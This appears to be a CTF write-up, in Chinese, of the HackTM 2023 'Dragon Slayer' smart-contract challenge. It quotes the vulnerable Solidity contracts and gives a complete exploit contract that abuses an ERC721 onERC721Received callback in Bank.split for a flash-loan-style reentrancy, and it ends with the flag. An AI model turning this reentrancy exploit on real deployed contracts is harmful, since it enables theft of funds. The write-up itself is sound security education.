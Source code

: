 ```yaml
---
title: Blockchain - Dragon Slayer
description: 2023 | HackTM CTF | smart contract
tags:
    - smart contract
    - solidity
    - flashloan
---
```


## 题目

Prove yourself a true champion. Kill the mighty dragon and earn the right to call yourself a dragon slayer.

> nc 34.141.16.87 30100

[:material-download: `dragon_slayer_contracts.zip`](static/dragon_slayer_contracts.zip)

## 解题思路

- 目标是击败恶龙w

    ```js
    // contract Setup
    function isSolved() external view returns (bool) {
        return knight.health() > 0 && knight.dragon().health() == 0;
    }
    ```

- `Dragon` 的攻击力、防御力以及血量都非常高

    ```js
    // contract Dragon
    constructor(address knight_) {
        knight = knight_;
        health = 1_000_000;
        clawAttack = 1_000_000;
        fireAttack = 10_000_000;
        defence = 500_000;
        attackRound = 0;
    }
    ```

- 而 `Knight` 初始只有 `Bronze Dagger` 和 `Wooden Shield`

    ```js
    // contract Shop
    struct ItemProperties {
        string name;
        uint price;
        ItemType itemType;
        uint attack;
        uint defence;
        bool hasAntiFire;
    }

    constructor(address goldCoin_) {
        goldCoin = GoldCoin(goldCoin_);
        item = new Item();

        item.mint(address(this), 1, 10, "");
        items[1] = ItemProperties("Bronze Dagger", 10 ether, ItemType.SWORD, 1, 0, false);

        item.mint(address(this), 2, 10, "");
        items[2] = ItemProperties("Wooden Shield", 10 ether, ItemType.SHIELD, 0, 1, false);

        item.mint(address(this), 3, 10, "");
        items[3] = ItemProperties("Abyssal Whip", 1_000_000 ether, ItemType.SWORD, 1_000_000, 0, false);

        item.mint(address(this), 4, 10, "");
        items[4] = ItemProperties("Dragonfire Shield", 1_000_000 ether, ItemType.SHIELD, 0, 1_000_000, true);

        // msg.sender is Knight
        item.mint(msg.sender, 1, 1, "");
        item.mint(msg.sender, 2, 1, "");
    }
    ```

- 购买商品需要足够的 `GoldCoin`，卖掉初始持有的 items 也不够购买 `Abyssal Whip` 和 `Dragonfire Shield`，并且 `Shop` 也没有 `GC` 支付 XD

    ```js
    // contract Shop
    function buyItem(uint itemId) external {
        goldCoin.transferFrom(msg.sender, address(this), items[itemId].price);
        item.mint(msg.sender, itemId, 1, "");
    }

    function sellItem(uint itemId) external {
        item.burn(msg.sender, itemId, 1);
        goldCoin.transfer(msg.sender, items[itemId].price); // no goldCoin in shop at first
    }
    ```

- 那么，得想办法从 `Bank` 弄点 `GC` 用 =ω=
    - `BankNote` 遵循 `ERC721` 代币标准，且 `mint()` 中调用了 `_safeMint()`

        ```js
        // contract BankNote
        function mint(address to, uint256 tokenId) public onlyOwner {
            _safeMint(to, tokenId);
        }
        ```

    - 接下来需要想办法让 `_safeMint()` 调用设计好的 `onERC721Received()`。`Bank` 中 `deposit()`、`merge()` 和 `split()` 使用到了 `BankNote.mint()`，不过除 `Knight` 外，其他地址并没有 `GC`。因而在未持有 `BN` 和 `GC` 的情况下，可通过 `Bank.merge()` 触发 `BankNote.mint()`，其中传入数组 `bankNoteIdsFrom` 的长度为 $0$

        ```js
        // contract Bank
        function deposit(uint amount) external {
            require(amount > 0, "ZERO");

            goldCoin.burn(msg.sender, amount);

            _ids.increment();
            uint bankNoteId = _ids.current();

            bankNote.mint(msg.sender, bankNoteId);
            bankNoteValues[bankNoteId] = amount;
        }

        function merge(uint[] memory bankNoteIdsFrom) external {
            uint totalValue;

            for (uint i = 0; i < bankNoteIdsFrom.length; i++) {
                uint bankNoteId = bankNoteIdsFrom[i];

                require(bankNote.ownerOf(bankNoteId) == msg.sender, "NOT_OWNER");
                bankNote.burn(bankNoteId);
                totalValue += bankNoteValues[bankNoteId];
                bankNoteValues[bankNoteId] = 0;
            }

            _ids.increment();
            uint bankNoteIdTo = _ids.current();
            bankNote.mint(msg.sender, bankNoteIdTo);
            bankNoteValues[bankNoteIdTo] += totalValue;
        }

        function split(uint bankNoteIdFrom, uint[] memory amounts) external {
            uint totalValue;
            require(bankNote.ownerOf(bankNoteIdFrom) == msg.sender, "NOT_OWNER");

            for (uint i = 0; i < amounts.length; i++) {
                uint value = amounts[i];

                _ids.increment();
                uint bankNoteId = _ids.current();

                bankNote.mint(msg.sender, bankNoteId);
                bankNoteValues[bankNoteId] = value;
                totalValue += value;
            }

            require(totalValue == bankNoteValues[bankNoteIdFrom], "NOT_ENOUGH");
            bankNote.burn(bankNoteIdFrom);
            bankNoteValues[bankNoteIdFrom] = 0;
        }
        ```

    - 采用类似 flashloan 的方式使用 `Bank.split()`，使用完后 `deposit()` 再转移给 `bankNoteIdFrom`，就能通过判断 `totalValue == bankNoteValues[bankNoteIdFrom]`

        ```js
        // contract Bank
        function deposit(uint amount) external {
            require(amount > 0, "ZERO");

            goldCoin.burn(msg.sender, amount);

            _ids.increment();
            uint bankNoteId = _ids.current();

            bankNote.mint(msg.sender, bankNoteId);
            bankNoteValues[bankNoteId] = amount;
        }

        function transferPartial(uint bankNoteIdFrom, uint amount, uint bankNoteIdTo) external {
            require(bankNote.ownerOf(bankNoteIdFrom) == msg.sender, "NOT_OWNER");
            require(bankNoteValues[bankNoteIdFrom] >= amount, "NOT_ENOUGH");

            bankNoteValues[bankNoteIdFrom] -= amount;
            bankNoteValues[bankNoteIdTo] += amount;
        }
        ```

### Exploit

```js
contract Hack is IERC721Receiver {
    Setup setup;
    Knight knight;
    Bank bank;
    uint visitCnt;

    constructor(address instance) {
        setup = Setup(instance);
        knight = Knight(setup.knight());
        bank = Bank(knight.bank());

        uint[] memory emptyBankNoteIds;
        bank.merge(emptyBankNoteIds); // deploying, onERC721Received will not be called
    }

    function exploit() external {
        setup.claim();

        uint[] memory amounts = new uint[](2);
        amounts[0] = 2_000_000 ether;
        amounts[1] = 0;
        bank.split(1, amounts);
    }

    function attack() internal {
        bank.withdraw(2);
        IERC20(knight.goldCoin()).transfer(address(knight), 2_000_000 ether);

        knight.buyItem(3);
        knight.buyItem(4);
        for (uint i = 0; i < 2; i ++) knight.fightDragon();
        knight.sellItem(3);
        knight.sellItem(4);

        knight.bankDeposit(2_000_000 ether);
        knight.bankTransferPartial(4, 2_000_000 ether, 1);
    }

    function onERC721Received(address, address, uint256 tokenId, bytes calldata) public returns (bytes4) {
        if (visitCnt == 1) {
            attack();
        }
        visitCnt += 1;
        return this.onERC721Received.selector;
    }
}
```

### Flag

> HackTM{n0w_g0_g3t_th4t_run3_pl4t3b0dy_b4af5ff9eab4b0f7}